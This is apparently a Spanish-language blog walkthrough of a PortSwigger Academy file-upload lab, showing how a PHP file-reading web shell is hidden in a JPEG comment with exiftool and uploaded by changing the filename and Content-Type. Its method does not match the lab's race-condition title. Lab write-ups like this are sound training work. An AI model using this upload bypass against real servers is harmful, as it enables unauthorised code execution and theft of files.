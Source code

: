 +++
author = "Alux"
title = "Portswigger Academy Learning Path: File Upload Lab 8"
date = "2022-01-11"
description = "Lab: Web shell upload via race condition"
tags = [
    "file upload",
    "portswigger",
    "academy",
    "burpsuite",
]
categories = [
    "pentest web",
]
series = ["Portswigger Labs"]
image = "head.png"
+++

# Lab: Web shell upload via race condition

En este <cite>laboratorio[^1]</cite>la finalidad es subir una shell al servidor para luego poder extraer o recuperar informacion de este. En este caso tenemos que leer el archivo `/home/carlos/secret`

## Reconocimiento

Cuando ingresamos con la cuenta de `wiener:peter` tenemos una opcion para subir archivos, en este caso el avatar del usuario, pero al intentar subir una imagen no nos da una opcion para poder elegir imagen u otro.

![Sistema permite la subida de archivos](upload.png)

Todo bien pero el sistema parece que no ejecuta el codigo php desde la carpeta, haciendo que cualquier archivo php solo podamos ver el contenido del `php` como si fuera texto plano.

## Explotacion

Creamos el archivo php con el siguiente codigo

```php
<?php echo file_get_contents('/home/carlos/secret'); ?>
```

Ahora enviamos el archivo, y vemos la respuesta que nos da diciendo que no se permite subir archivos de tipo `php` solamente `jpg y png`  aun cuando le agregamos las cabeceras para que sea un archivo de tipo jpg o png

- https://en.wikipedia.org/wiki/List_of_file_signatures

![Subida de archivo php al servidor](request.png)

Despues de intentar tanto encontre algo de exiftool y agregar un comentario en el blog de hacktricks, asi que me decidi a agregar un comentario a una imagen jpg cualquiera.

- https://book.hacktricks.xyz/pentesting-web/file-upload

```bash
alux@rootsystems:~/portswigger$ exiftool -Comment="<?php echo file_get_contents('/home/carlos/secret'); ?>" imagen.jpg
    1 image files updated
alux@rootsystems:~/portswigger$ exiftool imagen.jpg
ExifTool Version Number         : 12.30
File Name                       : imagen.jpg
Directory                       : .
File Size                       : 73 KiB
File Modification Date/Time     : 2022:01:11 20:55:52-06:00
File Access Date/Time           : 2022:01:11 20:55:52-06:00
File Inode Change Date/Time     : 2022:01:11 20:55:52-06:00
File Permissions                : -rw-r--r--
File Type                       : JPEG
File Type Extension             : jpg
MIME Type                       : image/jpeg
JFIF Version                    : 1.01
Resolution Unit                 : inches
X Resolution                    : 72
Y Resolution                    : 72
Comment                         : <?php echo file_get_contents('/home/carlos/secret'); ?>
Image Width                     : 1080
Image Height                    : 1350
Encoding Process                : Progressive DCT, Huffman coding
Bits Per Sample                 : 8
Color Components                : 3
Y Cb Cr Sub Sampling            : YCbCr4:2:0 (2 2)
Image Size                      : 1080x1350
Megapixels                      : 1.5
```
Ahora que tenemos nuestra imagen jpg con un comentario, procedemos a subirlo, pero esta vez interceptando y no modificando nada, mas que el `filename` y `Content-type` para que se suban como archivos php y que el servidor no lo tome como imagen aunque si valide su cabecera y sea realmente una imagen pero al ingresar al servidor todo su texto legible se tomara como php.

![Subida de archivo al servidor como imagen pero en formato php](request1.png)

Ahora que hemos subido la imagen podemos ver la key y podemos notar entre todos los caracteres no legibles nuestra key, ya que todo lo esta interpretando como un php incluso los caracteres que no conoce.

> El valor de la key empieza despues del 9 si vemos la peticion anterior notaremos como esta el valor 9 entre el contenido de la imagen antes del comentario

![Lectura de archivo secret de carlos](key.png)

Y con esto resolvimos el lab, pudiendo subir un archivo php que ejecuta acciones o comandos en el servidor.

![Laboratorio resuelto](resuelto.png)


[^1]: [Laboratorio](https://portswigger.net/web-security/file-upload/lab-file-upload-web-shell-upload-via-race-condition)